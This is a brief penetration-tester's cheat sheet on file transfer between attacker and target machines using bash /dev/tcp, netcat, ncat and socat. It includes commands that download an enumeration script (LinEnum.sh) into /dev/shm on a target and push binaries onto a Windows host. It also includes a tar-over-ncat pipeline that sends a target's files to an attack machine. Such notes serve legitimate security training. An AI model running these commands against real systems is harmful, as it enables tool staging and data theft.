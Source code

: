 # Linux File Transfers


## Bash 
Check `mount` if /`dev/shm/` has `no exec`
```bash
bash -c "cat < /dev/tcp/$IP/$PORT > /dev/shm/LinEnum.sh"
# bash -c 'If default shell is not bash'
```
[Ippsec Reddish Video](https://www.youtube.com/watch?v=Yp4oxoQIBAM)

## Netcat
[[Netcat-Cheatsheet]]
```powershell
# Listener on Windows system
nc -lvnp $PORT > tranfered.exe
# Push wget.exe onto windows system
nc -nv $IP $PORT < /usr/share/windows-resources/binaries/wget.exe
```

## Ncat

Target machine
```bash
tar cf - . | ncat $IP $PORT
```
Attack machine
```bash
ncat -nlvp $PORT | tar xf -
```

## Socat
Use [[Socat-Cheatsheet]], Host with:
```bash
sudo socat TCP4-LISTEN:$PORT,fork file:$filename
```
Transfer with
```powershell
socat TCP4:$IP:$PORT file:$filename,create
```
